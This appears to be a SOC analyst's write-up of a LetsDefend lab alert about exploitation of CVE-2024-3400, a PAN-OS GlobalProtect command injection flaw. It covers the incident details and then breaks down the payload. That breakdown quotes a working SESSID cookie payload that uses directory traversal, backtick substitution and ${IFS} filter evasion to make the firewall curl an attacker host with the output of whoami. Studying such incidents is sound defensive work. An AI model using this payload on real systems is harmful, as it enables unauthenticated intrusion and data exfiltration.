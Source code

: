 #  SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)

## Executive Summary

On April 18, 2024, the Security Operations Center (SOC) received a critical alert for the active exploitation of **CVE-2024-3400**, a command injection vulnerability, against the perimeter firewall **PA-Firewall-01** (172.16.17.139). The investigation confirmed that an external attacker from IP **144.172.79.92** successfully achieved unauthenticated Remote Code Execution (RCE) by embedding a malicious command within a cookie sent to the GlobalProtect service. Endpoint logs on the firewall itself show the successful execution of the attacker's payload. As the device was not blocking the attempt, it is considered **fully compromised at the root level**. This is a **True Positive** critical incident that requires immediate activation of the full Incident Response protocol.

## Incident Details

The initial alert was triggered by a request matching the specific exploit pattern for CVE-2024-3400:

<img width="1520" height="496" alt="image" src="https://github.com/user-attachments/assets/9401e746-9b3d-48f5-9ffa-a13011da435e" />

| | |
| :--- | :--- |
| **Date of Incident** | April 18, 2024 |
| **Source IP Address** | 144.172.79.92 |
| **Destination Host** | PA-Firewall-01 (172.16.17.139) |
| **Attack Type** | Command Injection / Remote Code Execution (CVE-2024-3400) |
| **Vulnerable Component** | PAN-OS GlobalProtect (`/global-protect/login.esp`) |
| **Case Link** | [View Full Case on LetsDefend.io](https://app.letsdefend.io/case-management/casedetail/sohankanna/249) |

## Investigation and Analysis

### 1. Payload and Vulnerability Analysis

The attack vector was a malicious POST request sent to the firewall's GlobalProtect login page. The core of the attack is the command injection payload hidden within the `SESSID` cookie value.

<img width="648" height="372" alt="image" src="https://github.com/user-attachments/assets/b6943d2f-db9c-4791-81b4-b423277d4ec9" />

**Payload Breakdown:** `SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa`curl${IFS}144.172.79.92:4444?user=$(whoami)`

This payload is meticulously crafted to exploit the vulnerability:
*   **Directory Traversal (`./../../../`):** The initial part of the payload attempts to traverse the directory structure. In the context of CVE-2024-3400, this is used to create a file in a specific, predictable location on the filesystem.
*   **Command Substitution (`` ` ``):** The payload is enclosed in backticks. In a Linux shell, anything within backticks is executed as a command first, and its output replaces the backticked string. This is the core of the RCE.
*   **The Command (`curl...`):**
    *   `curl`: The attacker instructs the firewall to run the `curl` command, which is a tool for transferring data.
    *   `${IFS}`: This is a shell evasion technique. `${IFS}` is an "Internal Field Separator" that acts like a space but can bypass simple filters or Web Application Firewalls (WAFs) that are only looking for a literal space character.
    *   `144.172.79.92:4444`: This is the attacker's command-and-control (C2) server. The firewall is being instructed to initiate an outbound connection to this IP and port.